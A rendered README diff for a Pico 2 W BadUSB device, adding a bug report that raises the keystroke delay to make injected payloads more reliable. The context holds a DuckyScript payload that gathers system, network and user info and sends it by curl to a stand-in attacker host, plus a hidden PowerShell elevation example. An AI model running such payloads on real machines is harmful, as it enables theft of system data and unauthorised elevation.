

Before and after one commit to Keyoes/Raspberry-pi-pico-2-W-bad-usb-wireless, a Markdown page: README.md, the part around the change. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -406,7 +406,101 @@ DELAY 500
 STRING cmd /c "systeminfo > %TEMP%\sysinfo.txt & ipconfig /all >> %TEMP%\sysinfo.txt & net user >> %TEMP%\sysinfo.txt & type %TEMP%\sysinfo.txt | curl -X POST -d @- http://attacker.com/collect"
 ENTER
 ```
+### Common issues
 
+Bug: CHAR_DELAY should have a minimum of 30ms to prevent data loss in BadUSB payloads
+Description
+When executing BadUSB payloads through the Keyoes controller, we've discovered that the current default character delay of 10ms (char_delay = 0.01 in the code) causes significant reliability issues. Characters are frequently dropped or misinterpreted during payload execution, especially with longer commands or when targeting systems under load.
+Current Implementation
+In the current code (execute_script() function), we have:
+python# Setăm un delay de bază între caractere pentru scrierea de text
+char_delay = 0.01  # 10ms între caractere
+
+for line in script_lines:
+    # ...
+    if command == "STRING":
+        if len(parts) > 1:
+            # Pentru fiecare caracter, adăugăm un mic delay
+            text = parts[1]
+            for char in text:
+                keyboard_layout.write(char)
+                time.sleep(char_delay)  # Delay între caractere
+The CHAR_DELAY command exists, but there's no warning or minimum value enforcement:
+pythonelif command == "CHAR_DELAY":
+    # Comandă nouă pentru a schimba delay-ul dintre caractere
+    if len(parts) > 1:
+        try:
+            char_delay = float(parts[1]) / 1000.0  # conversia din ms în secunde
+            print(f"Character delay set to {char_delay}s")
+        except ValueError:
+            print(f"Invalid CHAR_DELAY value: {parts[1]}")
+Problem Details
+
+Target systems miss keystrokes during rapid typing sequences
+Special characters and complex commands often fail to register properly
+Payloads fail silently with no indication of character loss
+The web interface doesn't provide guidance on appropriate CHAR_DELAY values
+
+Steps to Reproduce
+
+Upload a complex payload with long STRING commands
+Execute the payload with default CHAR_DELAY (10ms)
+Observe incomplete or failed command execution on target system
+
+Proposed Fix
+
+Increase the default CHAR_DELAY to 30ms minimum:
+
+python# Setăm un delay de bază între caractere pentru scrierea de text
+char_delay = 0.03  # 30ms între caractere (changed from 10ms)
+
+Add validation to enforce a minimum value when users set CHAR_DELAY:
+
+pythonelif command == "CHAR_DELAY":
+    if len(parts) > 1:
+        try:
+            requested_delay = float(parts[1])
+            if requested_delay < 30:
+                print(f"Warning: CHAR_DELAY below 30ms may cause reliability issues")
+                print(f"Automatically adjusting to minimum recommended value (30ms)")
+                requested_delay = 30
+            char_delay = requested_delay / 1000.0  # conversia din ms în secunde
+            print(f"Character delay set to {char_delay}s")
+        except ValueError:
+            print(f"Invalid CHAR_DELAY value: {parts[1]}")
+
+Update the web interface to include guidance (in the terminal-window section):
+
+html<div class="terminal-editor">
+    <textarea id="script" placeholder="Type here ... Use CHAR_DELAY 30 or higher for reliable payload execution"></textarea>
+    <div class="delay-hint">Tip: Add 'CHAR_DELAY 30' at the start of your script for reliable execution</div>
+</div>
+
+Add CSS for the hint:
+
+css.delay-hint {
+    color: #0abab5;
+    font-size: 12px;
+    padding: 5px;
+    border-top: 1px dashed var(--kali-border);
+    margin-top: 5px;
+}
+Example Script with Fix
+REM Reliable payload with proper delay
+CHAR_DELAY 30
+STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Start-Process cmd -Verb RunAs"
+DELAY 1000
+STRING Y
+ENTER
+Impact
+
+More reliable payload execution across all target systems
+Fewer failed attacks due to dropped keystrokes
+Better user experience with clearer guidance
+No significant performance impact (20ms additional delay per character is negligible compared to failed execution)
+
+Priority
+Medium-High: This affects the core functionality of the BadUSB controller
 ## Best Practices for Operational Security
 
 When utilizing this controller for legitimate security testing:
````
